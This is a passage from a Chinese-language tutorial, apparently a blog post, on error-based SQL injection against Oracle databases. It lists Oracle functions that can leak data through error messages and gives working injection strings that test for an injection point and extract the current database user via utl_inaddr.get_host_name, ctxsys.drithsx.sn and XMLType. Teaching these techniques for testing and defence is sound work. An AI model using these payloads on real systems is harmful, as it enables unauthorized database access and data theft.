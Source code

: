 *   dbms_xdb_version.checkin()
    
*   dbms_xdb_version.uncheckin()
    
*   dbms_xdb_version.makeversioned()
    
*   dbms_utility.sqlid_to_sqlhash()
    
*   UTL_INADDR.get_host_name()
    
*   UTL_INADDR.get_host_address()
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlLn7XkmIvdOibtxHdXIDuOSzmurDj185Dd1AjMJicSHxCgicmqHEKup5Lw/640?wx_fmt=png)

报错注入的核心流程如下：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlQBKD29pw6WxdLlP3pzEiaicLlocQW7dJ7YfKB8tLMwOTv9asK0KFx9ag/640?wx_fmt=png)

**第一步，判断注入点。**

```
1 and (select count (*) from user_tables)>0 --1 and (select count (*) from dual)>0 --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlYJHTgKOpic1zLfibJXBqL34ibWHgiajyW09jlBCfVn9z98nFADNc4daevw/640?wx_fmt=png)

**第二步，显错函数获取信息。**  
利用 utl_inaddr.get_host_name( ) 获取 ip 地址，但是如果传递参数无法得到解析就会返回一个 oracle 错误并显示传递的参数。

*   utl_inaddr.get_host_name( )
    

```
1 and 1=utl_inaddr.get_host_name((select user from dual))--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlCnIKQicaGxZ7kbXXgnpnlaeBWjsuNerNIB69HTS9MuSia6GNViaDicsXVg/640?wx_fmt=png)

但作者的配置没有显示任何 ORA 报错信息，泪奔 o(╥﹏╥)o，后面文章我找 CTF 题目给大家模拟下，这里主要介绍 Cream 老师兼好友的分享。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlT0TevecwIhtFtu9Ato37YpfmSib8Xdials8iaNPtstTKnpe9svKUoNlHQ/640?wx_fmt=png)

这里我们利用 ctxsys.drithsx.sn() 函数查询关于主题（获取当前用户信息）的对应关键词时，报错信息会显示出第二个参数的结果。

*   ctxsys.drithsx.sn()
    

```
-1 and  1=ctxsys.drithsx.sn(1,(select user from dual)) --
```

也可以使用 XMLType() 函数实现，比如：

```
1 and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlRJVoQvjmfAdSTE5Zfoo2fqnCuG9hoXegCQ4OngFcnxnOyNX1vH4uYA/640?wx_fmt=png)
